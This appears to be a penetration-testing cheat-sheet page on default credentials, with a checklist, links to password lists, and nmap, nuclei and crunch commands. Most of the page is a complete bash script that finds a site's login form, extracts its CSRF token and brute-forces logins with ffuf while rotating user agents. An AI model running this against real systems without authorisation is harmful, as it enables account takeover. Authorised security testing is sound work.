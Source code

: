 # Default Credentials

## Check List

* [ ] Determine whether the application has any user accounts with default passwords.
* [ ] Review whether new user accounts are created with weak or predictable passwords.

## Cheat Sheet

### Vendor Default Credentials

#### Default Creds

{% embed url="https://github.com/many-passwords/many-passwords" %}

{% embed url="https://github.com/ihebski/DefaultCreds-cheat-sheet/blob/main/DefaultCreds-Cheat-Sheet.csv" %}

{% embed url="https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials" %}

{% embed url="https://many-passwords.github.io/" %}

{% embed url="https://crackstation.net/" %}

{% embed url="https://haveibeenpwned.com/Passwords" %}

{% embed url="https://cirt.net/passwords" %}

#### [defaultcreds-cheat-sheet](https://github.com/ihebski/DefaultCreds-cheat-sheet)

```bash
creds search tomcat
```

#### [Nmap](https://github.com/nnposter/nndefaccts)

```bash
sudo nmap -p80,443 --mtu 5000 --script http-default-accounts $WEBSITE
```

#### [Nuclei](https://github.com/projectdiscovery/nuclei-templates/tree/main/http/default-logins)

```bash
nuclei -u $WEBSITE -tags default-login
```

### Application Generated Default Passwords

#### [Crunch](https://sourceforge.net/projects/crunch-wordlist/)

```bash
crunch 8 12 -t @@company%% -o passlist.txt
```

{% hint style="info" %}
`-t` = for password pattern

`@` = lowercase keywords

`,` = uppercase keywords

`%` = digits

`^` = meta characters

Example Result: `abcompany12`
{% endhint %}

#### [FFUF](https://github.com/ffuf/ffuf)

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano default-bruteforce.sh
```

```bash
#!/bin/bash

# CONFIG
USERLIST="/usr/share/seclists/Usernames/top-usernames-shortlist.txt"
PASSLIST="/usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt"
UA_LIST="/usr/share/seclists/Fuzzing/User-Agents/user-agents-whatismybrowserdotcom-mid.txt"

# INPUT CHECK
if [ $# -lt 1 ]; then
    echo "Usage: $0 <domain.com>"
    exit 1
fi

URL="$1"

# FIND LOGIN PAGE
LOGIN=$(katana -u "$URL" -depth 3 -silent | \
grep -iE "/(login|signin|sign-in|auth|user/login|admin/login|my-account|account|wp-login\.php)(/)?$" | \
grep -viE "lost-password|reset|forgot|register|signup|signout|logout|\.(js|css|jpg|png|gif|svg|ico)$" | \
sed 's:[/?]*$::' | sort -u | head -n1)

if [ -z "$LOGIN" ]; then
    echo "[!] No login page found. Exiting."
    exit 1
fi

# FETCH HTML
HTML=$(curl -s "$LOGIN")
FORM=$(echo "$HTML" | sed -n '/<form/,/<\/form>/p' | head -n 100)

# CAPTCHA / reCAPTCHA check
CAPTCHA_KEYWORDS="g-recaptcha|recaptcha|h-captcha|data-sitekey|captcha|grecaptcha.execute|hcaptcha.execute"
if echo "$HTML" | grep -qiE "$CAPTCHA_KEYWORDS"; then
    echo "[!] CAPTCHA detected on login page. Brute-force aborted."
    exit 1
fi

# EXTRACT FORM ACTION AND METHOD
ACTION=$(echo "$FORM" | grep -oEi 'action="[^"]*"' | head -1 | cut -d'"' -f2)
[ -z "$ACTION" ] && ACTION="$LOGIN"

METHOD=$(echo "$FORM" | grep -oEi 'method="[^"]+"' | head -1 | cut -d'"' -f2 | tr '[:upper:]' '[:lower:]')
[ -z "$METHOD" ] && METHOD="post"

if [[ "$ACTION" == /* ]]; then
    BASE_URL=$(echo "$URL" | sed 's|^\(https\?://[^/]*\).*|\1|')
    FULL_ACTION="${BASE_URL}${ACTION}"
elif [[ "$ACTION" =~ ^https?:// ]]; then
    FULL_ACTION="$ACTION"
else
    BASE_URL=$(echo "$LOGIN" | sed 's|\(https\?://.*/\).*|\1|')
    FULL_ACTION="${BASE_URL}${ACTION}"
fi

# EXTRACT USERNAME & PASSWORD FIELDS
USERNAME_FIELD=$(echo "$FORM" | grep -oEi '<input[^>]*name="[^"]+"' | \
grep -Ei 'user(name)?|login(_id)?|userid|uname|mail|email|auth_user' | head -1 | sed -E 's/.*name="([^"]+)".*/\1/')
PASSWORD_FIELD=$(echo "$FORM" | grep -oEi '<input[^>]*name="[^"]+"' | \
grep -Ei 'pass(word)?|passwd|pwd|auth_pass|login_pass' | head -1 | sed -E 's/.*name="([^"]+)".*/\1/')

[ -z "$USERNAME_FIELD" ] && USERNAME_FIELD="username"
[ -z "$PASSWORD_FIELD" ] && PASSWORD_FIELD="password"

# CSRF TOKEN EXTRACTION
CSRF_FIELD=""
CSRF_VALUE=""

HIDDEN_INPUTS=$(echo "$FORM" | grep -oiP '<input[^>]+type=["'\'']?hidden["'\'']?[^>]*>')
while read -r INPUT; do
    NAME=$(echo "$INPUT" | grep -oiP 'name=["'\'']?\K[^"'\'' ]+')
    VALUE=$(echo "$INPUT" | grep -oiP 'value=["'\'']?\K[^"'\'' ]+')
    if [[ "$NAME" =~ csrf|token|nonce|authenticity|verification ]]; then
        CSRF_FIELD="$NAME"
        CSRF_VALUE="$VALUE"
        break
    fi
done <<< "$HIDDEN_INPUTS"

if [ -z "$CSRF_FIELD" ] && [ -n "$HIDDEN_INPUTS" ]; then
    CSRF_FIELD=$(echo "$HIDDEN_INPUTS" | grep -oiP 'name=["'\'']?\K[^"'\'' ]+' | head -1)
    CSRF_VALUE=$(echo "$HIDDEN_INPUTS" | grep -oiP 'value=["'\'']?\K[^"'\'' ]+' | head -1)
fi

# PREPARE POST DATA
DATA="${USERNAME_FIELD}=FUZZ1&${PASSWORD_FIELD}=FUZZ2"
[ -n "$CSRF_FIELD" ] && [ -n "$CSRF_VALUE" ] && DATA="${CSRF_FIELD}=${CSRF_VALUE}&${DATA}"

# EXTRACT COOKIES
COOKIES=$(curl -s -I "$LOGIN" | grep -i '^Set-Cookie:' | sed -E 's/^Set-Cookie: //I' | tr -d '\r\n')

# HEADERS
HEADERS=(
  -H "Content-Type: application/x-www-form-urlencoded"
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0"
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8"
  -H "Accept-Language: en-US,en;q=0.5"
  -H "Accept-Encoding: gzip, deflate"
  -H "Connection: keep-alive"
  -H "Upgrade-Insecure-Requests: 1"
  -H "Referer: $LOGIN"
)
[ -n "$COOKIES" ] && HEADERS+=(-H "Cookie: $COOKIES")

# RUN FFUF
if [[ "$METHOD" == "get" ]]; then
    FFUF_URL="${FULL_ACTION}?${DATA}"
    ffuf -u "$FFUF_URL" \
         -w "$USERLIST:FUZZ1" \
         -w "$PASSLIST:FUZZ2" \
         -w "$UA_LIST:UA" \
         -X GET \
         -ac -c -r \
         -mc 200,301,302 \
         -H "User-Agent: UA" \
         "${HEADERS[@]}"
else
    ffuf -u "$FULL_ACTION" \
         -w "$USERLIST:FUZZ1" \
         -w "$PASSLIST:FUZZ2" \
         -w "$UA_LIST:UA" \
         -X POST \
         -d "$DATA" \
         -ac -c -r \
         -mc 200,301,302 \
         -H "User-Agent: UA" \
         "${HEADERS[@]}"
fi
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x default-bruteforce.sh;sudo ./default-bruteforce.sh $WEBSITE
```
